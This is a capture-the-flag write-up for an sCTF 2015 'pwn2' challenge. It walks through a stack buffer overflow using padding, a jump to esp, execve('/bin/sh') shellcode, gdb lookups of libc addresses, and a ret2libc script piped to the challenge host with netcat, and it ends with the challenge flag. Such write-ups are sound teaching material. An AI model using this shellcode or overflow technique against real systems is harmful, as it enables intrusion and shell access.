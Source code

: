 ## pwn2 - 120 (Pwning) ##
#### Writeup by r3ndom_ #####
Created: 2015-12-08

### Problem ###
This one is a bit more complicated...nc pwn.problem.sctf.io 1338

Flag is in flag.txt

### Hint ###
It runs on the same box as pwn1.

## Answer ##

### Overview ###
The binary for pwn2 contains no imports for system and as such we can't spawn a shell with that. This means we have to turn to pwn1 to get the addresses of system and "/bin/sh" in libc. 

### Details ###
The buffer is yet again at an offset of 0x2c from the location that will be returned. This means we begin with the same concept. 

```python
shell_code = 'A'*0x2c
```

Then we find how to change eip to be esp.
First find a push esp, the opcode for this instuction is 0xff 0xf4.
We can use the 0xff 0xf4 from _start that is part of the call to __libc_start_main. 

The next instructions are all xchg ax, ax. This is effectively a nop and is used by gcc for spacing. Then theres a function that returns without changing the stack. Perfect, our code will fall through from there.

```python
shell_code += '\xd0x83\x04\x08'
```

There we go, that'll call anything we put past this point.

Now we write a little bit of shellcode to call system.

```python
shell_code += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print shell_code
```

Now we just pipe that in to the pwn1 server to get a call of any system instruction that can be "/bin/sh" to spawn us a shell.

After this go to the tmp directory so you can use gdb (it only works with file write perms), and wget pwn2. Then you can execute gdb on pwn2 and do:

```
b main
r
p system
find &system,+999999,"/bin/sh"
```

This will find you the addresses you need to ROP pwn2.

Now you can build an exploit for pwn2.

```python
import struct
def gen_ptr(a):
	return struct.pack("<L", a)
rop = 'A'*0x2c

# system address
rop += gen_ptr(0xb7e67190)

# filler
rop += 'wow_'

# "/bin/sh" address
rop += gen_ptr(0xb7e5a1e0)

print rop
```

Now just

```
cat <(python rop.py) - | nc pwn.problem.sctf.io 1338
```

and you can use the shell on pwn2 to cat flag.txt.

### Flag ###

    flag{p0pp1ng_sh3ll_thr0ugh_libc}

